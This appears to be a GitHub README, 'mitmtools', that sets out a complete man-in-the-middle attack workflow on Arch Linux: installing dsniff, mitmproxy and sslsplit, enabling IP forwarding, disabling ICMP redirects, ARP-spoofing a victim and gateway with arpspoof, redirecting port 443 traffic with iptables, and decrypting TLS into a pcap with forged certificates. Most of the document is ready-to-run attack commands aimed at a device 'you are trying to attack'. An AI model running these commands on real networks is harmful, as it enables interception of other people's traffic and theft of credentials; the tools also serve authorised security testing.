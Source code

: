 # mitmtools

system setup and scripts for various mitm activities

## System Setup

arch linux package installs:
```
pacman -S dsniff mitmproxy sslsplit
```

## ARP Spoofing

ARP Spoofing is a form a mitm attack that causes a device on the same network as the attacker to route traffic to the attacker that was intented for another device.

### Enable IP Forwarding
IP Forwarding is required for an ARP Spoofing attack because we need to forward packets on to their correct MAC address

enable IP Forwarding at runtime (will revert upon reboot):
```
sysctl net.ipv4.ip_forward=1
```

to enable IP Forwarding permanently create the file `/etc/sysctl.d/30-ipforward.conf` with the following content:
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```

### Disable ICMP redirects

disable at runtime:
```
sysctl -w net.ipv4.conf.all.send_redirects=0
```

to disable ICMP redirects permanently create the file `/etc/sysctl.d/31-icmp-redirect.conf` with the following content:
```
net.ipv4.conf.all.send_redirects=0
```

### Perform ARP Spoof

intercept traffic from A intended for B to your local attacker machine on the I interface (unidirectional mitm):
```
arpspoof -i I -t A B
```
e.g. to intercept traffic from a device 192.168.1.100 to the gateway 192.168.1.1 on the eth0 interface:
```
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```
to make the intercept bydirectional, add the `-r` flag:
```
arpspoof -i eth0 -r -t 192.168.1.100 192.168.1.1
```

## mitmproxy

mitmproxy can be used to transparently proxy HTTP data encrypted with TLS. (it will not work with non-HTTP TLS streams!)

### redirect traffic to mitmproxy (running on port 8081) via iptables

redirect traffic to port 443 to mitmproxy running on localhost port 8081
```
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8081
```

### run mitmproxy
```
mitmproxy --mode transparent --showhost -p 8081 -k
```

The first time mitmproxy is run, it generates a CA cert/key pair that are used to sign all forged PKI certificates.

cert location:
```
~/.mitmproxy/mitmproxy-ca-cert.pem
```
This cert needs to be installed and trusted as a CA certificate in whatever web broswer, mobile device, etc that you are trying to attack.
NOTE: also you can not add the cert to a device to test if it is in fact verifying the cert or not.

## sslsplit

sslsplit is used to transparently intercept TLS streams and write the decryped network data to a pcap file. sslsplit has the advantage of working on all TLS payloads, not just HTTP.

### redirect traffic to sslsplit (running on port 8081) via iptables

redirect traffic to port 443 to sslsplit running on localhost port 8081
```
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8081
```

### run sslsplit

generate key and cert:
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365
```

run sslsplit:
```
sslsplit -D -X out.pcap -k key.pem -c cert.pem ssl 127.0.0.1 8081
```
